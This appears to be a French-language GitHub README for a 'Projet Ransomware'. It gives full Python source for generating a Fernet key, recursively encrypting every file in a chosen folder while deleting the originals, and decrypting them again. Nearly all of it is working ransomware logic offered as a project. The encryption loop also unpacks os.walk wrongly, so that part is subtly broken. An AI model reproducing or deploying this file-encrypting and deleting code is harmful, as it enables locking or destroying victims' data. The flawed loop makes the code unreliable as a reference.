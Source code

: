 # **Projet Ransomware**
## Script de Chiffrement et Déchiffrement de Fichiers
Ce script permet de chiffrer et de déchiffrer les fichiers d’un dossier spécifié à l’aide du module `cryptography.fernet` de Python.



## Génération d’une Clé de Chiffrement
```python
from cryptography.fernet import Fernet

def write_key(key_name): 
    # Générer et sauvegarder la clé de chiffrement
    key = Fernet.generate_key()
    with open(key_name, 'wb') as key_file:
        key_file.write(key)

if __name__ == "__main__":
    write_key("key.key")

```

## Chiffrement de Fichiers
La classe `Encryptor` s’occupe du chiffrement des fichiers.

```python

from cryptography.fernet import Fernet
import os 


class Encryptor:
    def loadkey(self, key_name):
        # Charger la clé de chiffrement
        key = open(key_name,"rb").read()
        return key
    def encrypt(self, path, key):
        # Chiffrer tous les fichiers du dossier spécifié
        for path, files in os.walk(path):
            for file in files:
                file_path = os.path.join(path, file)
                self.encrypt_all_files(file_path, key)


    def encrypt_all_files(self, file, key):
        # Chiffrer les fichiers à l'aide de la clé
        f = Fernet(key)
        encrypted = f.encrypt(open(file, "rb").read())

        # Sauvegarder les nouveaux fichiers cryptés avec une extension ".aes"
        with open(file + ".aes", "wb") as encrypted_file:
            encrypted_file.write(encrypted)

        # Supprimer les docs originaux
        os.remove(file)



if __name__ == "__main__":
    encryptor = Encryptor()

    key = encryptor.loadkey("key.key")

    doc = input("Enter the folder name you wish to encrypt: ")

    encryptor.encrypt(doc,key)

```

## Déchiffrement de Fichiers
La classe `Decryptor` s’occupe du déchiffrement des fichiers.

```python

from cryptography.fernet import Fernet
import os

class Decryptor:
    def loadkey(self, key_name):
        # Charger la clé de chiffrement
        key = open(key_name,"rb").read()
        return key
    
    def decrypt(self, path, key):
        # Déchiffrer tous les fichiers du dossier spécifié
        for path, sub_dirs, files in os.walk(path):
            for file in files:
                file_path = os.path.join(path, file)

                if file_path.endswith(".aes"):
                    self.decrypt_all_files(file_path, key)


    def decrypt_all_files(self, file, key):
        # Déchiffrer les fichiers à l'aide de la clé
        f = Fernet(key)
        decrypted = f.decrypt(open(file, "rb").read())

        # Sauvegarder les nouveaux fichiers décryptés sans l'extension ".aes"
        with open(file.replace(".aes", ""), "wb") as decrypted_file:
            decrypted_file.write(decrypted)

        # Supprimer les docs originaux
        os.remove(file)



if __name__ == "__main__":
    decryptor = Decryptor()

    key = decryptor.loadkey("key.key")

    doc = input("Enter the folder name you wish to decrypt: ")

    decryptor.decrypt(doc,key)

```
